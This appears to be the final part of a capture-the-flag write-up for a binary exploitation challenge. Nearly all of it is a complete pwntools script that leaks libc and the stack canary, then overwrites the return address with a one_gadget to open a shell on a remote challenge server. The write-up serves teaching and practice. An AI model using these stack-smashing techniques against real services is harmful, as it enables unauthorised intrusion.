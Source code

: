 ### Stage 3: ROP Chain Execution

```python  
# Stage 3: Execute one_gadget via ROP
one_gadget = libc_base + 0x583ec
payload = b'CHUNK 0 1 ' + b'c' * 0x48 + p64(canary) + b'd' * 0x8 + p64(one_gadget)
p.send(payload)
```

**Analysis:**
- Uses the leaked canary to bypass stack protection
- 8-byte padding for proper stack alignment  
- one_gadget provides direct shell execution
- Thread immediately executes ROP chain

## Final Exploit

```python
from pwn import *

p = remote('34.45.81.67', 16006)
elf = ELF('./chall')
libc = ELF('./libc.so.6')

# Stage 1: Leak libc base address
p.sendline(b'CHUNKS 3')
payload = b"CHUNK 0 1 " + b'a' * 0x3f
p.sendline(payload)
p.recvuntil(b'aaaaa\n')
leak = u64(p.recv(6) + b'\x00\x00')
libc_base = leak + 0x940 + 0x3000
print(f"libc_base: {hex(libc_base)}")

# Stage 2: Leak stack canary  
payload = b"CHUNK 100 1 " + b'b' * 0x48
p.sendline(payload)
p.recvuntil(b'b\n')
canary = u64(b'\x00' + p.recv(7))
print(f"canary: {hex(canary)}")

# Stage 3: ROP chain with one_gadget
one_gadget = libc_base + 0x583ec
payload = b'CHUNK 0 1 ' + b'c' * 0x48 + p64(canary) + b'd' * 0x8 + p64(one_gadget)
p.send(payload)

p.interactive()
```

## Exploitation Result

![Exploit Success](https://github.com/user-attachments/assets/9d17851a-1009-4d14-9051-36eff5e30a60)
